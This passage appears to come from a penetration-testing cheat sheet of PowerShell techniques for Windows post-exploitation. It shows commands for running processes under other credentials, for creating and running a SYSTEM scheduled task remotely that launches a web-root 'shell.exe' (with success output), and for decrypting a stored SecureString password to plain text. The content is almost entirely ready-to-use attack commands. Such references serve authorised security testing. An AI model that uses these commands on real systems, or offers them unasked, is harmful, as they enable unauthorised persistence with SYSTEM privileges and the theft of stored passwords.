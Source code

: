```powershell
powershell -command "start-process cmd.exe -argumentlist '/c calc' -Credential (New-Object System.Management.Automation.PSCredential 'username',(ConvertTo-SecureString 'password' -AsPlainText -Force))"

############# PSCREDENTIAL DECRYPT
https://arttoolkit.github.io/wadcoms/PSCredential-decrypt/
# Read from XML 
https://stackoverflow.com/questions/40029235/save-pscredential-in-the-file
```
{% endcode %}

## Invoke-Command / Scheduled Task as another user

{% code overflow="wrap" fullWidth="true" %}
```powershell
$pw = ConvertTo-SecureString "Mypassword1234!" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("Administrator", $pw)
Invoke-Command -Computer $HOSTNAME -ScriptBlock { schtasks /create /sc onstart /tn shell /tr C:\inetpub\wwwroot\shell.exe /ru SYSTEM } -Credential $creds
SUCCESS: The scheduled task "shell" has successfully been created.
Invoke-Command -Computer $HOSTNAME -ScriptBlock { schtasks /run /tn shell } -Credential $creds
SUCCESS: Attempted to run the scheduled task "shell".
```
{% endcode %}

## Run as another user (requires GUI)

```powershell
Start-Process powershell 'Start-Process cmd -Verb RunAs' -Credential adm1n
```

## Enrollment Automation Account

{% code overflow="wrap" fullWidth="true" %}
```powershell
https://stackoverflow.com/questions/28352141/convert-a-secure-string-to-plain-text

$pw = Get-Content .creds.txt | ConvertTo-SecureString
$bstr = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($pw)
$UnsecurePassword = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($bstr)
$UnsecurePassword
```
{% endcode %}

## Environment variables

```powershell
ls Env:\
```

## Find writable files
